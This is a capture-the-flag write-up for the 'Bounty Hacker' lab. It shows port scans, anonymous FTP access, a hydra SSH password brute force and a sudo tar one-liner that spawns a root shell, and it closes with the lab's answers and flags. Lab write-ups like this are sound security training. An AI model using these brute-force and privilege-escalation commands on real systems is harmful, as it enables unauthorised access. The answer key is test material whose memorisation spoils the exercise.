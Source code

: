 # Bounty Hacker

> Lorenzo De Simone | 21.05.2023

- [Bounty Hacker](#bounty-hacker)
  - [Hosts](#hosts)
  - [Enumeration](#enumeration)
    - [Nmap](#nmap)
    - [Directory busting / Nikto](#directory-busting--nikto)
    - [FTP Server](#ftp-server)
  - [Exploitation](#exploitation)
    - [Access to the system](#access-to-the-system)
    - [Privilege Escalation](#privilege-escalation)
  - [Flags](#flags)


## Hosts 

```bash
export IP=10.10.224.202
``` 

## Enumeration

### Nmap

```console
└─$ sudo nmap -sV -sC -oN nmap/inital 10.10.224.202        
[sudo] password for lorenzo: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-21 11:41 CEST
Nmap scan report for 10.10.224.202
Host is up (0.036s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.48.50
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dcf8dfa7a6006d18b0702ba5aaa6143e (RSA)
|   256 ecc0f2d91e6f487d389ae3bb08c40cc9 (ECDSA)
|_  256 a41a15a5d4b1cf8f16503a7dd0d813c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.71 seconds
``` 
From the nmap scan we can see that **tcp/21**, **tcp/22** and **tcp/80** are the open ports on this machine

### Directory busting / Nikto

```console
gobuster dir -u http://10.10.224.202 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | tee gobuster.log
```

```console
nikto -url http://10.10.224.202 | tee nikto.log
```

No interesting results from gobuster and nikto, maybe there is something on the ftp server on **tcp/21**

### FTP Server

Anonymous login was enabled, on the server there where 2 files, **tasks.txt** and **locks.txt**

```console
cat locks.txt 
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e

cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

**locks.txt** Seems to be passwords, maybe for the lin user?

## Exploitation

### Access to the system

```console
hydra -l lin -P locks.txt 10.10.224.202 ssh -t 4      
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-21 12:06:01
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:1/p:26), ~7 tries per task
[DATA] attacking ssh://10.10.224.202:22/
[22][ssh] host: 10.10.224.202   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-05-21 12:06:08

``` 
Hydra was able to find the passwort for lin. Found the user flag in **/home/lin/Desktop**

### Privilege Escalation

Machine seems to be broken but, lin should be able to run tar as sudo. Running tar as sudo we can spawn a **root shell**

GTFOBIN:
```console
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

## Flags 

1. Who wrote the task list?
> lin

2. What service can you bruteforce with the text file found?
> ssh

3. What is the users password? 
> RedDr4gonSynd1cat3 

4. user.txt
> THM{CR1M3_SyNd1C4T3}

5. root.txt
> THM{80UN7Y_h4cK3r} 


